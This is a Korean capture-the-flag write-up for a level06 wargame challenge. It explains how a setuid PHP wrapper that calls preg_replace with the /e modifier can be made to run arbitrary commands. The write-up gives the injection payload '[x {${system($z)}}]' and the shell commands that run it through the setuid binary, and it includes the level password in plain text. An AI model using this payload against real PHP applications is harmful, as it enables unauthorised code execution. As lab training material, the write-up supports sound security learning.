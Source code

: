 > password: viuaaale9huek52boumoomioc

홈 디렉토리의 파일 내용을 확인하면 다음과 같다.

```bash
$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

`Sticky bit`가 설정된 `level06` 바이너리 및 `level06.php` 파일이 있다.

먼저, `level06` 바이너리를 실행해본다.

```bash
$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

PHP 오류가 발생한다. 직관적으로 에러메시지를 통해 `level06` 바이너리가 `/home/user/level06/level06.php` 파일 내용을 읽어 실행한 것으로 추측해볼 수 있다.

cat 으로 `level06.php` 파일을 읽어 출력해보면 내용이 다음과 같다.

```php
$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

포매팅이 잘 되어있지 않아 내용이 복잡하다. 읽기 쉽게 바꾸어보면 다음과 같다.

```php
#!/usr/bin/php
<?php
function y($m)
{
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}
function x($y, $z)
{
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

`$argv[1]` 경로의 파일 내용을 읽어서 정규식 처리를 하는 코드이다. `preg_replace` 함수를 통해서 특정 정규식을 찾아내고, `/e` 플래그를 통해 `y("\2")` 함수를 실행한 결과로 치환하는 형태를 취하고 있다.

`y("\2")` 에서 `\2`는 정규식에 매칭되는 2번째 그룹을 의미한다. 따라서, `(.*)` 부분이 해당된다.

`/e` 플래그가, 인자로 넘겨진 내용을 evaluate 가능하다는 것을 악용하여 다음과 같이 첫 번째 인자를 넣으면 `$argv[2]`에 해당하는 코드를 실행시킬 수 있다.

`${}` 는 중괄호 내부의 구문을 처리하여 가상의 변수의 형태로 나온다. 여기에 다시 한 번 중괄호를 씌워서 이 가상 변수의 내용을 문자열로 만들어 출력시킨다. 

*(PHP Complex (curly) syntax)*

```
[x {${system($z)}}]
```

```bash
$ cat > '/tmp/level06' <<< '[x {${system($z)}}]'
$ ./level06 '/tmp/level06' getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : [...]
```
